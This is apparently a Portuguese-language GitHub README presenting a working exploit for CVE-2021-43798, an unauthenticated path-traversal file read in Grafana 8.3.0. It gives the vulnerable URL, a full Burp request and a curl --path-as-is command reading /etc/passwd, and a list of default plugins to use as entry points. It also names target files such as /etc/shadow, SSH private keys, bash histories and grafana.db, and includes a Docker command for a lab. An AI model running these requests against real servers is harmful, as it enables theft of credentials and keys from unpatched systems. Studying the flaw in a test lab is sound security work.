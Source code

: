 # CVE-2021-43798 Grafana | Vulnerabilidade de leitura arbitrária não autorizada de arquivos

**Versão 8.3.0**

Para mais informações da correção da falha:
https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/

Exemplo: Capturando o arquivo 
```/etc/passwd```

![Captura de tela 2022-05-20 075544](https://user-images.githubusercontent.com/39815226/169514111-8f8edb22-dc05-4daa-8b4c-f26dafdfd6b1.png)

## A Falha
A falha consiste em obter a leitura de arquivos locais sem a necessidade de credênciais válidas. É possível explorar a falha pelo [BurpSuite](https://portswigger.net/burp), Curl ou
qualquer linguagem de preferência.

A URL vulnerável:

```http://<IP_ALVO>:3000/public/plugins/alertlist/../../../../../../../../etc/passwd```

#### No Burp
Enviamos essa requisição
```
GET /public/plugins/alertlist/../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:3000
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```
#### No Curl
Com a opção ```--path-as-is``` podemos enviar via Curl a seguinte requisição

```curl --path-as-is http://<IP_ALVO>:3000/public/plugins/alertlist/../../../../../../../../etc/passwd```

## Lista dos Plugins Padrões
Esta falha explora esses plugins padrões do sistema

_O arquivo está salvo como lista.txt_

```
alertlist
annolist
grafana-azure-monitor-datasource
barchart
bargauge
cloudwatch
dashlist
elasticsearch
gauge
geomap
gettingstarted
stackdriver
graph
graphite
heatmap
histogram
influxdb
jaeger
logs
loki
mssql
mysql
news
nodeGraph
opentsdb
piechart
pluginlist
postgres
prometheus
stat
state-timeline
status-history
table
table-old
tempo
testdata
text
timeseries
welcome
zipkin
```
## Arquivos Interessantes para Explorar
Alguns arquivos interessantes que é possível vizualizar com a falha
```
/conf/defaults.ini
/etc/grafana/grafana.ini
/etc/passwd
/etc/shadow
/home/grafana/.bash_history
/home/grafana/.ssh/id_rsa
/root/.bash_history
/root/.ssh/id_rsa
/usr/local/etc/grafana/grafana.ini
/var/lib/grafana/grafana.db
/proc/net/fib_trie
/proc/net/tcp
/proc/self/cmdline
```
## Criando um Ambiente de Testes
É possível recriar a falha em um ambiente de teste via [Docker](https://www.docker.com). Após ter feito as configurações iniciais do docker, basta seguir este comando

```docker run --name=grafana -p 3000:3000 grafana/grafana-enterprise:8.3.0```

Depois basta acessar ```http://localhost:3000``` e explorar

